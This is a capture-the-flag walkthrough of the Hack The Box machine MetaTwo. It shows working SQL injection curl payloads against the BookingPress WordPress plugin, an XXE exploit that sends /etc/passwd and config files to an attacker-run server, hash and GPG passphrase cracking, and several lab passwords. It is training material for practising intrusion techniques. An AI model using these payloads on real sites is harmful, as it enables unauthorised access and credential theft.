

# HTB - MetaTwo

#### Ip: 10.129.228.95
#### Name: MetaTwo
#### Rating: Easy

------------------------------------------------


#### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 5000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/MetaTwo]
└─$ sudo nmap -p- --min-rate 5000 -sC -sV 10.129.228.95
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2025-03-06 13:34 CST
Nmap scan report for 10.129.228.95
Host is up (0.094s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp?
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c4b44617d2102d8fec1dc927fecd79ee (RSA)
|   256 2aea2fcb23e8c529409cab866dcd4411 (ECDSA)
|_  256 fd78c0b0e22016fa050debd83f12a4ab (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://metapress.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 255.87 seconds
```

Let's add metapress.htb to `/etc/hosts`.

Looking at he site we find a simple page:


Scrolling to the bottom of the page (or just looking at the page source) we find the site is running WordPress.

Running wpscan with:

```
┌──(ryan㉿kali)-[~/HTB/MetaTwo]
└─$ wpscan --url http://metapress.htb --enumerate vp,u,vt,tt
```

We locate two users, admin and manager:


Looking at the page source of http://metapress.htb/events/ we see that the plugin bookingpress is being used:


Looking for exploits I find: https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357/

Which lays out a nice POC to exploit this:

"The plugin fails to properly sanitize user supplied POST data before it is used in a dynamically constructed SQL query via the bookingpress_front_get_category_services AJAX action (available to unauthenticated users), leading to an unauthenticated SQL Injection"

```
- Create a new "category" and associate it with a new "service" via the BookingPress admin menu (/wp-admin/admin.php?page=bookingpress_services)
- Create a new page with the "[bookingpress_form]" shortcode embedded (the "BookingPress Step-by-step Wizard Form")
- Visit the just created page as an unauthenticated user and extract the "nonce" (view source -> search for "action:'bookingpress_front_get_category_services'")
- Invoke the following curl command

curl -i 'https://example.com/wp-admin/admin-ajax.php' \
  --data 'action=bookingpress_front_get_category_services&_wpnonce=8cc8b79544&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'

Time based payload:  curl -i 'https://example.com/wp-admin/admin-ajax.php' \
  --data 'action=bookingpress_front_get_category_services&_wpnonce=8cc8b79544&category_id=1&total_service=1) AND (SELECT 9578 FROM (SELECT(SLEEP(5)))iyUp)-- ZmjH'
```

Because there is already an event we can skip the first two steps, and simply inspect the page source of `/events` for the wpnonce we'll need:


We can then follow the POC and view the version number:



Cool, let's now access the known wp_users table for WP dbs:

```
┌──(ryan㉿kali)-[~/HTB/MetaTwo]
└─$ curl 'http://metapress.htb/wp-admin/admin-ajax.php' \
  --data 'action=bookingpress_front_get_category_services&_wpnonce=398e4fd1fc&category_id=33&total_service=-7502) UNION ALL SELECT user_login,user_email,user_pass,NULL,NULL,NULL,NULL,NULL,NULL from wp_users-- -'
```


Cool, let's add these password hashes to a file and try cracking them with john:

```
┌──(ryan㉿kali)-[~/HTB/MetaTwo]
└─$ john hashes --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (phpass [phpass ($P$ or $H$) 128/128 ASIMD 4x2])
Cost 1 (iteration count) is 8192 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
partylikearockstar (?) 
```


John was able to successfully crack one of the hashes: `partylikearockstar`

We are now able to login to the site as user manager, however because we don't have admin privileges yet, we can't simply abuse plugins to catch a reverse shell.

Going back to my wpscan output and noting the WP version number: WordPress version 5.6.2 and looking for vulnerabilities, I find a great writeup of an XXE vulnerability: https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/

### Exploitation

Looking for a pre-written exploit to speed the process up I find: https://github.com/Val-Resh/CVE-2021-29447-POC

We can run it and confirm it works:

```
┌──(ryan㉿kali)-[~/HTB/MetaTwo]
└─$ python CVE-2021-29447.py --url http://metapress.htb --server-ip 10.10.14.114 -u manager -p 'partylikearockstar'
[*] Attempting to authenticate to http://metapress.htb/wp-login.php with manager:partylikearockstar
[*] Authenticated successfully.
[*] Generated a WAV payload with XXE.
[*] Retrieving upload nonce.
[*] Nonce retrieved successfully: 10c4e1fc1e
[*] Server listening on 10.10.14.114:45454

File to Exfiltrate: /etc/passwd
[*] Created DTD file.
[*] Uploading the WAV payload.
10.129.228.95 - - [06/Mar/2025 14:43:20] "GET /xxe.dtd HTTP/1.1" 200 -
10.129.228.95 - - [06/Mar/2025 14:43:20] "GET /xxe.dtd HTTP/1.1" 200 -
[*] WAV payload uploaded successfully.

[*] File extracted successfully:

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
sshd:x:104:65534::/run/sshd:/usr/sbin/nologin
jnelson:x:1000:1000:jnelson,,,:/home/jnelson:/bin/bash
systemd-timesync:x:999:999:systemd Time Synchronization:/:/usr/sbin/nologin
systemd-coredump:x:998:998:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:105:111:MySQL Server,,,:/nonexistent:/bin/false
proftpd:x:106:65534::/run/proftpd:/usr/sbin/nologin
ftp:x:107:65534::/srv/ftp:/usr/sbin/nologin
```

After struggling to find anything of interest (SSH keys, wp-config.php, etc.) using this vulnerability, I decided to check the webroot being used at `/etc/nginx/sites-enabled/default`


And that explains why I had been unable to access any interesting wordpress files, the blog isn't located at the normal path of `/var/www/html` or `/var/www/html/wordpress`, etc.

We can now access the wp-config file at: `/var/www/metapress.htb/blog/wp-config.php` which gives us a few credentials:


For FTP: `metapress.htb:9NYS_ii@FyL_p5M2NvJ`

and Mysql: `blog:635Aq@TdqrCwXFUZ`

From here we can login to the FTP server and access files:

```
┌──(ryan㉿kali)-[~/HTB/MetaTwo]
└─$ ftp 10.129.183.246
Connected to 10.129.183.246.
220 ProFTPD Server (Debian) [::ffff:10.129.183.246]
Name (10.129.183.246:ryan): metapress.htb
331 Password required for metapress.htb
Password: 
230 User metapress.htb logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||43510|)
150 Opening ASCII mode data connection for file list
drwxr-xr-x   5 metapress.htb metapress.htb     4096 Oct  5  2022 blog
drwxr-xr-x   3 metapress.htb metapress.htb     4096 Oct  5  2022 mailer
226 Transfer complete
ftp> cd mailer
250 CWD command successful
ftp> ls
229 Entering Extended Passive Mode (|||18426|)
150 Opening ASCII mode data connection for file list
drwxr-xr-x   4 metapress.htb metapress.htb     4096 Oct  5  2022 PHPMailer
-rw-r--r--   1 metapress.htb metapress.htb     1126 Jun 22  2022 send_email.php
226 Transfer complete
ftp> get send_email.php
local: send_email.php remote: send_email.php
229 Entering Extended Passive Mode (|||9310|)
150 Opening BINARY mode data connection for send_email.php (1126 bytes)
100% |********************************************************************************|  1126        8.58 MiB/s    00:00 ETA
226 Transfer complete
1126 bytes received in 00:00 (12.67 KiB/s)
```

And inside the send_email.php file we find jnelson's password:

```
┌──(ryan㉿kali)-[~/HTB/MetaTwo]
└─$ cat send_email.php                                 
<?php
/*
 * This script will be used to send an email to all our users when ready for launch
*/

use PHPMailer\PHPMailer\PHPMailer;
use PHPMailer\PHPMailer\SMTP;
use PHPMailer\PHPMailer\Exception;

require 'PHPMailer/src/Exception.php';
require 'PHPMailer/src/PHPMailer.php';
require 'PHPMailer/src/SMTP.php';

$mail = new PHPMailer(true);

$mail->SMTPDebug = 3;                               
$mail->isSMTP();            

$mail->Host = "mail.metapress.htb";
$mail->SMTPAuth = true;                          
$mail->Username = "jnelson@metapress.htb";                 
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";                           
$mail->SMTPSecure = "tls";                           
$mail->Port = 587;
```

Which we can use to SSH in with and grab the first flag:


### Privilege Escalation

In jnelson's home directory there is a passpie folder:

```
jnelson@meta2:~/.passpie$ ls -la
total 24
dr-xr-x--- 3 jnelson jnelson 4096 Oct 25  2022 .
drwxr-xr-x 5 jnelson jnelson 4096 Mar  6 22:37 ..
-r-xr-x--- 1 jnelson jnelson    3 Jun 26  2022 .config
-r-xr-x--- 1 jnelson jnelson 5243 Jun 26  2022 .keys
dr-xr-x--- 2 jnelson jnelson 4096 Oct 25  2022 ssh
```

The `.keys` file contains public and private PGP keys.

I'll copy the private key block back to my attacking box and use gpg2john to crack the passphrase:

```
┌──(ryan㉿kali)-[~/HTB/MetaTwo]
└─$ gpg2john key > hash.txt                                                       

File key
```

John quickly cracks the passphrase:


`blink182`

From here we can run:

```
jnelson@meta2:~/.passpie$ passpie copy --to stdout --passphrase blink182 root@ssh
p7qfAZt4_A1xo_0x
```

And we get the root password.

We can now `su -`:

```
jnelson@meta2:~/.passpie/ssh$ su -
Password: 
root@meta2:~# whoami
root
```

And grab the final flag:


Thanks for following along!

-Ryan

-------------------------------------------
